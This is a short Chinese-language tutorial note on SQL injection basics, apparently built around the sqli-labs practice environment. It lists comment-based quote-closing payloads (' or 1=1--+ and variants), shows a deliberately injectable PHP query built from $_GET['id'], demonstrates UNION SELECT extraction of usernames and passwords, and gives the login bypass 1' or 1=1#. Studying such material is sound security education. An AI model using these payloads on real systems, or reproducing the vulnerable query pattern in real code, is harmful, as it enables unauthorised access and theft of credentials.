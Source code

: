 `--+可以用#替换,url 提交过程中 Url 编码后的#为%23`

`--(空格)、#`  是sql语句的注释语句

```
select group_concat(username,password) from users;-- as;
select group_concat(username,password) from users;#as;
select group_concat(username,password) from users;
//这三句效果一样
```

```
or 1=1--+
' or 1=1--+
" or 1=1--+
) or 1=1--+
') or 1=1--+
") or 1=1--+
")) or 1=1--+
```

一般代码为：

> $id=$\_GET['id'];  
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";

`前面的引号用引号闭合，后面的引号注释掉(-- 、#)`  

### unions操作符的介绍  

union操作符用于合并两个或多个SELECT语句的结果,如果前面一个为空那么后面就可以被我控制输出了

`mysql> select username from users union select password from users;`

### sql中的逻辑运算  

```
mysql> select username,password from users where id=1 and 1=1;
+----------+----------+
| username | password |
+----------+----------+
| Dumb     | Dumb     |
+----------+----------+
1 row in set (0.00 sec)

mysql> select username,password from users where id=1;

+----------+----------+
| username | password |
+----------+----------+
| Dumb     | Dumb     |
+----------+----------+
1 row in set (0.00 sec)
```

万能密码`1' or 1=1#`
